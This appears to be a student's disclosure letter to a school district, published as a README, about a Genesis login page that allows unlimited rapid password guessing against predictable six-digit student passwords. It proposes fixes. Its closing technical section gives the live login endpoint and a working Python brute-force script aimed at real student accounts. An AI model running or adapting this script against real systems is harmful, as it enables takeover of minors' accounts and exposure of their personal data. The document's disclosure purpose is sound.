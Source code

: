# Genesis Password Concern

## 🧠 Intro

I am writing to express a concern I have with district password security for the students, as well as to offer some possible solutions to fix this problem.

The [Genesis](https://www.genesisedu.com/) login system has a vulnerability that allows many possible passwords to be tried very quickly. This could allow someone to fairly easily guess passwords and gain access to student accounts in a matter of minutes. With access to a student's password, a large amount of personal information is at risk.

## ❓ Why this is a problem

How is this bad? Well with these passwords being used for both Genesis accounts and student Google accounts lots of student's personal information is accessible. This includes the following (in no particular order)

- Full Name
- Birth Date
- Age
- State ID
- School name
- Grade
- Attendance
- Grades
- Classes
- Teacher names
- Report Cards
- Forms
- Calendar Events
- Class Zoom Links
- Class Times
- Student Assignments
- Student Files
- Student Emails (of all students)
- YouTube Watch & Search history
- Google Search History
- Google Keep stuff
- Chrome Bookmarks
- Chrome Saved Passwords
- Chrome autofill form data
- Chrome currently open tabs
- Chrome History
- Google Photos
- Google Tasks
- Any Phones / Mobile devices signed in with school Google
- Device Details of devices signed in to school Google account
- And more

And this is just the information I found with just a few minutes of searching through my account. I hope after reading that you are very concerned about the amount of personal information that is basically public (to anyone who cares enough to put a small amount of effort and time into it). Now not only does anybody who cracks someone else's passwords have access to read the information contained in the categories mentioned above, but they can also edit/modify/send information/emails as someone else.

## ✨ Fixes

Now that this problem is known, it wouldn't be very helpful if I didn't suggest some fixes! So here are two simple options to think about.

### 📀 Option 1

One fix for this problem is to use more secure passwords for accounts. Currently, a large amount (not all) of student passwords appear to be formatted like this ⇒ `30####` where the `#`s are any number. This means that for many student passwords only four digits need to be cracked. This is bad because it lowers the time to crack passwords. I have been able to crack my own password with some relatively simple [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) in only a few minutes. This means all student passwords could be cracked in a few weeks or less for over 7000 accounts.

I think that at a certain grade (I would say 6th grade) students could learn how to then make their own secure passwords. Secure passwords have 10 characters made up of letters, numbers, and special characters. These passwords should not be able to be seen by teachers or other staff but could be reset if needed. This would be good in terms of security, but it will also teach students the important skill of making secure passwords.

### 💿 Option 2

Another way to fix this problem is by making some modifications to the Genesis login system. This is something that would require working with the Genesis 'team' to fix but would be *ok* if option 1 is not viable.

Currently, Genesis has no rate limit or CAPTCHA. This means that many automated password attempts can be made within very quick succession. For example, the program mentioned above was able to make over 30 requests per second. This allows simple brute force attacks (such as this one) to work. Nowadays fixing this is extremely easy with the use of external services like reCAPTCHA. 

### 🌠 Fixes Conclusion

There are of course more options than these two, but I think this is a good start and will hopefully get the district to think more about the security aspect of the services used. Apart, these solutions are ok but if both are used together the school and its students will be made more secure than ever.

## 🛑 Conclusion

Personal information has become an incredibly valuable asset for advertisers, hackers, etc. it is now more important than ever to properly secure it. At the moment I believe the district is **not** doing enough to secure this information, which places large amounts of personal protected student data at risk. I believe that it is the district's responsibility to securely manage student's data on required sites and services (like Google Classroom and Genesis).

By reading this our district is one step closer to better security! As I hope you can see from reading this, I really care about security and want to improve the school's technology for not only myself but all other students. I will also be happy to discuss my thoughts and findings in more detail if It would be helpful.

Sincerely, Connor Slade

connorslade@bernardsboe.com

## 📅 Technical Details (If you are interested)

Here I will be going over some specific technical details of this vulnerability. View the advanced version's [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) and see it in action [here](https://asciinema.org/a/408164). This vulnerability can be exploited manually if you have a lot of time but can be sped up immensely with a bit of code.

At its most basic my script just sends a GET request to `https://parents.genesisedu.com/bernardsboe/sis/view` to get the `JSESSIONID` cookie assigned by the server. Then it sends POST requests to `https://parents.genesisedu.com/bernardsboe/sis/j_security_check` with the form data `{"j_password": <PASSWORD>, "j_username": <EMAIL>}` where `<PASSWORD>` is the password to try (ex: 307652 or 300936) and `<EMAIL>` is the email of the account to crack (ex: connorslade@bernardsboe.com). I found these details by looking at the site's network traffic when logging into my account.

Below you can see a basic python script that will (slowly) crack a password for the supplied email account. Code comments are included to help show what each line does.

```python
import requests  # Import needed module

url      = 'https://parents.genesisedu.com/bernardsboe/sis/j_security_check'  # Define api uri
checkUrl = 'https://parents.genesisedu.com/bernardsboe/sis/view?gohome=true'  # Define defult url

# Put student Email here (ex: example@bernardsboe.com)
email = ''

assert email != '' # Dont run if email is empty
print(f'[*] Starting Crack for {email}')  # Print email to crack

for i in range(9999):  # Loop through possible passwords
    toTry = f'30{str(i).zfill(4)}'  # Create password to try (ex: 300736)
    print(f'[*] Trying [{toTry}]')  # print what password is being tried
    # Create new session to hold cookies
    ses = requests.Session()
    # Let server Create cookies needed to proform exploit (JSESSIONID)
    ses.get(checkUrl)
    # Get Data to send
    dataToSend = {"j_password": toTry, "j_username": email}
    # Try Password
    data = ses.post(url, data=dataToSend)
    # Check if is correct password
    if not "Account is inactive" in data.text and not "workStudentId" in data.text:
        continue
    print(f'\n[*] Complete: {toTry}')  # if passwords is correct print it
    break  # Exit the loop when the password has been found
```

Watch this script run [here](https://asciinema.org/a/408162). Now this works but is still very slow, however, it does a good job showing what is going on without optimizations. To speed this up multi-threading can be used to attempt more passwords in the same amount of time.
